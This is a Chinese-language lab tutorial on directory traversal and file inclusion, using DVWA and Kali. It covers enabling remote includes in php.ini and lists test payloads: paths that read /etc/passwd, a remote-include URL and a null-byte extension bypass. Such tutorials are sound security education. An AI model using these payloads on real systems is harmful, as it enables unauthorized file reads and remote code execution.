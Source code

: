 

# 目录遍历、文件包含漏洞

* 目录遍历和文件包含
    1. 两种漏洞放在一起进行测试
    2. 设置 dvwa 可以进行远程文件包含测试
    3. 漏洞特征
    4. 经典测试方法
    5. 绕过字符过滤
    6. cookie 注入目录遍历
    7. 本地文件包含
    8. 远程文件包含
* 漏洞利用
* 权限配置不当引起的本地文件包含漏洞
* 远程文件包含漏洞
    1. dvwa测试 Low 级别下的源代码
    2. dvwa测试 Medium 级别下的源代码
    3. dvwa测试 High 级别下的源代码
    4. 远程文件包含漏洞的危害
* kali 自带攻击向量的字典文件

## 目录遍历和文件包含
* 两种漏洞放在一起进行测试
> kali linux 2018.1 ： 10.10.10.131  
  dvwa：10.10.10.132  
  原理一样，放在一起进行测试  

* 设置 dvwa 可以进行远程文件包含测试
``` 
root@metasploitable:~# vim /etc/php5/cgi/php.ini       
    ; Whether to allow include/require to open URLs (like http:// or ftp://) as files.
    allow_url_include = On
root@metasploitable:~# /etc/init.d/apache2 restart

```
* 漏洞特征
> 应用程序操作文件，限制不严时导致访问Web目录以外的文件，包括读写文件和远程执行代码  
> 特征但不绝对：  
> ?page=a.php  
  ?home=b.html  
  ?file=content  

* 经典测试方法
``` 
?file=../../../../etc/passwd
?page=file:///etc/passwd
?home=main.cgi
?page=http://www.a.com/1.php
http://1.1.1.1/../../../../dir/file.txt
```
* 绕过字符过滤
1. “.” “%00” #绕过文件扩展名过滤
``` 
?file=a.doc%00.php
```
